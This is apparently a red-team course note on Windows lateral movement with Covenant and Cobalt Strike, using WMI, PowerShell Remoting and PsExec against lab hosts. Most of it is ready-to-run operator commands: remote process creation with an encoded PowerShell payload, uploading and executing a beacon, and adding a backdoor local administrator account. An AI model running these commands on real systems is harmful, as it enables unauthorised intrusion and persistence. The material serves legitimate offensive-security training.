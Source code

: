 Several could be used for Lateral Movement:
1. WMI
2. PowerShell Remoting
3. PsExec

For each lateral movement command in Covenant, such as WMIGrunt, there's an equivalent Command command (confusing), like WMICommand.  Where WMIGrunt only allows you to specify a listener to execute, WMICommand allows you to execute any arbitrary command.

Similarly, Cobalt Strike separates its capabilities into **jump [method\] [target\] [listener]** and **remote-exec [method] [target] [command]**.

## WMIC

#### WMIC from CMD
```
wmic /node:"wkstn-4945" /user:"cyberbotic.io\\n.lamb" /password:"REDACTED" process call create "powershell -enc \[...snip...\]"
```

#### WMIC from Covenant
```
> wmigrunt computer-name powershell
> connect computer-name mysvc
```

#### WMIC from Cobalt Strike
WMI is not built into Cobalt Strike's **jump** command, but it is in **remote-exec**. As such, we have some free reign to decide how to deliver a payload.

We could generate and upload a payload to disk, whether that be an exe, ps1, dll or even something a little left-field like an xml/csproj. Or keep it simple and use a powershell one-liner (take care with one-liners as there's command length limit).

```
beacon> upload C:\payloads\tcp-beacon.exe (\\wkstn-4945\\c$\\Windows\\Temp\\tcp-beacon.exe)

beacon> remote-exec wmi wkstn-4945 C:\\Windows\\Temp\\tcp-beacon.exe

beacon> connect wkstn-4945 1337
```

## PowerShell remoting
The **PowerShellRemotingCommand** task allows us to execute PowerShell on a remote system and like WMICommand, can use our current token or alternate credentials. 

PowerShell Remoting can also return output from the target system, so it works well for general enumeration as well as lateral movement.

Covenant Example:
```
> PowerShellRemotingCommand wkstn-4945 "whoami; hostname"
> PowerShellRemotingCommand wkstn-4945 "powershell -enc \[...snip...\]"
```

Cobalt Strike Example:
```
beacon> jump winrm64 wkstn-4945 tcp
beacon> remote-exec winrm wkstn-4945 whoami; hostname
```

## PSExec
Covenant:
```
> psexec pc-name servicebin
> connect pc-name mysvc
```

Cobalt:
```
beacon> jump psexec64 wkstn-4945 tcp
```
with remote-exec:
```
beacon> remote-exec psexec wkstn-4945 cmd.exe /c "net user rastamouse Passw0rd! /add && net localgroup administrators rastamouse /add"
```
